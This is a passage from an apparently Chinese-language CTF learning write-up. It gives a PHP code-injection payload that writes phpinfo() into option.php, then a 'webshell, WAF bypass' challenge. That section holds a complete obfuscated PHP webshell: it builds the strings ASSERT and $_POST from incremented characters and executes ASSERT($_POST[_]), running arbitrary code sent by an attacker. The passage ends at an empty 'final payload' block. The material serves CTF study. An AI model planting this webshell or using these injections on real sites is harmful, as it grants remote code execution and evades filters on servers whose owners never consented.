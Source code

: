 payload

`option=222%27;%0aphpinfo();\\`


xxxxx/option.php内容会变为：
![](https://1dayluo.github.io/post-images/1599127711676.png)

## Challenge5 webshell、waf绕过
利用的是当字符串与数组拼接后为一个字符串，值为Array。测试如下（php5下5.4及以上的能用。5.2,5.3，php7都没这个特性）
![](https://1dayluo.github.io/post-images/1599127747253.png)
payload（ https://chybeta.github.io/2017/07/15/%E4%B8%80%E9%81%93%E5%A5%BD%E7%8E%A9%E7%9A%84webshell%E9%A2%98/ ）
*刚开始学习阶段，打算先从学习别人如何写开始
````php
<?php
$_='';$_[+$_]++;
$_=$_.'';    //获取字符串：“Array”。
$__=$_[+'']; //获取大写字母A $__为"A"
$_ = $__; //$_为A 
$___=$_; //$__为A
$__=$_; //$__为A 
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; //$__此时为S
$___.=$__;//$___为AS
$___.=$__; //$__为ASS
$__=$_;//$__为A
$__++;$__++;$__++;$__++;//$__为E
$___.=$__;
$__=$_; //$__初始化为A
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; //$__此时为R
$___.=$__; //$___此时为ASSER
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;//$__此时为T
$___.=$__; //$___此时为ASSERT
$____='_';//$___此时值为_
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; //$_此时为P
$____.=$__; //_P ？？？
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$____.=$__; //_PO
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$____.=$__; //_POS
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$____.=$__;//_POST
$_=$$____;//$_的值为$POST;
$___($_[_]);  //最终$___为ASSERT，$_为$_POST组合起来就是ASSERT($_POST[_])
//最后burpsuite抓包赋值给_
````
最终payload
````php
````